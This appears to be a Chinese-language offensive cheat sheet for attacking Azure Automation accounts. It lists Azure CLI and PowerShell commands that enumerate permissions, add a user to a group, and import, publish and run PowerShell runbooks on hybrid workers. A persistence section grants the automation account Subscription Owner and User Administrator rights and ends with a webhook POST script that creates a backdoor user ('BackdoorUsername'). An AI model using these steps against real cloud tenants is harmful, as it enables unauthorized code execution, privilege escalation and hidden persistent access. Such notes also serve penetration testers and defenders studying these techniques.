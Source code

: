 #### 创建Runbook
	检查自动化用户权限
	az extension add --upgrade -n automation
	az automation account list # if it doesn't return anything the user is not a part of an Automation group
	az ad signed-in-user list-owned-objects

	如果用户不属于“自动化”组
	将他添加到自定义组，例如：“自动化管理员”
	Add-AzureADGroupMember -ObjectId <OBJID> -RefObjectId <REFOBJID> -Verbose

	获取自动化账户上用户的角色
	Contributor 或更高级别 = 可以创建和执行 Runbook
	Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

	列出混合工作人员
	Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>

	创建一个Powershell Runbook
	PS C:\Tools> Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

	发布Runbook
	Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

	启动Runbook
	Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
#### 通过自动化帐户持久化
	创建一个新的自动化帐户
	“创建 Azure 运行方式帐户”：是
	导入一个新的 Runbook，创建一个拥有订阅所有者权限的 AzureAD 用户*
	此博客的示例运行手册位于此处 – https://github.com/NetSPI/MicroBurst
	发布运行手册
	将 Webhook 添加到 Runbook
	将 AzureAD 模块添加到自动化帐户
	更新 Azure 自动化模块
	为自动化帐户分配“用户管理员”和“订阅所有者”权限
	最终失去访问权限……
	使用 post 请求触发 webhook 以创建新用户
	$uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
	$AccountInfo  = @(@{RequestBody=@{Username="BackdoorUsername";Password="BackdoorPassword"}})
	$body = ConvertTo-Json -InputObject $AccountInfo
	$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
